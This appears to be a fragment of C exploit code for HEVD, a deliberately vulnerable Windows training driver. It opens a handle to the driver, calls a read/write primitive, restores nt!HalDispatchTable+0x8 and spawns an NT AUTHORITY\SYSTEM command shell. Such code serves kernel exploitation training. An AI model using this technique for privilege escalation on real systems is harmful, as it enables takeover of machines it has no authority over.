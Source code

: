 ```c

    // Print update
    printf("[+] Successfully restored [nt!HalDispatchTable+0x8]!\n");

    // Print update for NT AUTHORITY\SYSTEM shell
    printf("[+] Enjoy the NT AUTHORITY\\SYSTEM shell!\n");

    // Spawning an NT AUTHORITY\SYSTEM shell
    system("cmd.exe /c cmd.exe /K cd C:\\");
}

void main(void)
{
    // Open a handle to the driver
    printf("[+] Obtaining handle to HEVD.sys...\n");

    HANDLE drvHandle = CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0x0,
        NULL,
        OPEN_EXISTING,
        0x0,
        NULL
    );

    // Error handling
    if (drvHandle == (HANDLE)-1)
    {
        printf("[-] Error! Unable to open a handle to the driver. Error: 0x%lx\n", GetLastError());
        exit(-1);
    }
    else
    {
        readwritePrimitive(drvHandle);
    }
}
```
